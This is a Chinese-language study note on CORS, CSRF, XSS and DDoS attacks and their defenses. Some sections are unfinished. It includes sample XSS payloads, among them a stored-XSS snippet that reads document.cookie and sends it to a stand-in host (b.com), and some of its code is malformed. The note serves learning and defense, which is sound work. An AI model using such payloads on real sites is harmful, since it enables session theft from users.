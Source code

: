 ```yaml
---
title: xss、cors、cc的攻击和防御
date: 2018-04-09 15:09:55
tags: http
---
```


## cors
- 定义
    - Cross-Origin Resource-Sharing（跨站资源共享）
    - 当一个资源从与该资源所在的服务器不同域请求资源时，会发起一个跨域http请求，如 a.com 的html( &lt;img src="cdn.com/a.png" /&gt; )向 cdn.com 请求图片等资源，网络上的许多站点都会加载来自不同域的css样式、图像、脚本等资源
    - 可指定一个origin，在许可范围内
- 同源策略
    - 浏览器限制从脚本发出的跨域http请求，ajax遵循同源策略
    - jsonp
- 使用cors进行跨域
    - 在请求头中携带origin的header
    - 服务端响应头添加 Access-Control-Allow-Origin || Access-Control-Allow-Methods ，来返回验证结果
- csrf
    - Cross-Site Request Forgery（跨站请求伪造）
    - 用户通过浏览器正常访问站点A，通过A的身份认证A站点，A产生所使用的cookie等验证信息
    - 此时A保持登录状态，另起一个窗口打开B站点，站点B接收到用户请求后，返回一些攻击代码请求A的资源
    - 浏览器执行恶意代码，在用户不知情情况下携带cookie等用户验证信息，向A发起请求，导致来自B的恶意代码被执行
    - 代码
    ```JavaScript
        <script>
            var a = `a.com/a.php?user="hhj"&pwd="j"`;
            var b = `b.com`;
        </script> 
    ```
    - 防御
        - 重要数据交互采用post进行接受
        - 使用验证码
        - 验证Http Referer字段，即此次Http请求的来源地址
        - 为每个表单添加Token并验证

## xss
- Cross-Site Scripting（跨站脚本攻击），防止与css一样，用xss；指攻击者在页面里插入而已script代码，当用户浏览页面时，嵌入其中的恶意代码会被执行
- 攻击方式
    - 发出请求时，xss代码出现在url中，作为输出会被提交并解析后响应，最后返回给浏览器，浏览器解析执行xss代码
    ```JavaScript
        <script>
            var url = `a.com?send="<script>alert('xss test')<script>"`; // 里面的xss test会被执行
            var url = `a.com?send="<script type='text/script' src='src/xss.js'><script>"`; // 执行这段js
        </script>
    ```
    - 表单存到数据库的时候，攻击者会将恶意代码保存至数据库，后面客户端执行至这段代码会被恶意执行
    ```html
        <input type="text" value="<script>alert('xss test')</script>" /> 
        <!-- 保存至数据库，后面从数据库拉去数据在页面执行的时候，会恶意执行 -->
        <input type="text" value="<div>破坏布局，伪造页面效果</div>" /> 
        <input type="text" value="#123" />
        <!-- php中的#会被当成注释、如其他里面可以试试// || /**/ -->
        <sctipt>
            var s = document.cookie, h = document.createElement('a');
            h.href = "b.com?"+ s;
            h.innerHtml = '<img src="../xss.png">';
            document.body.appendChild(h);
        </script>
    ```
    - 
- 防御
    - “所有的输入都是有害的”：对输入数据进行过滤
        - 对数据进行html encode处理
        - 对一些特殊符号进行转义，例如<script>、<iframe>、&lt < 、&gt >、
        - 过滤js事件的标签，例如onclick、onfoucus
    - 将重要的cookie标记为http only，这样页面上js的document.cookie语气就不能获取到cookie
    - 对数据
    - 服务器段对输入的数据进行xss clean处理

## ddos
- distributed Denial Of Service（分布式拒绝服务攻击）
- 通过大量合法请求占用大量资源，以达到瘫痪网络的目的。
    - 通过向服务器提交大量请求，使服务器超负荷
    - 阻断某服务与特定系统或个人的通讯
    - ip欺骗是

## sql注入

## cc攻击

## 参考链接
- [cors.csrf](https://yq.aliyun.com/articles/69313)
- [xss](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html#_label3)
- [ddos](https://baike.baidu.com/item/%E5%88%86%E5%B8%83%E5%BC%8F%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1%E6%94%BB%E5%87%BB)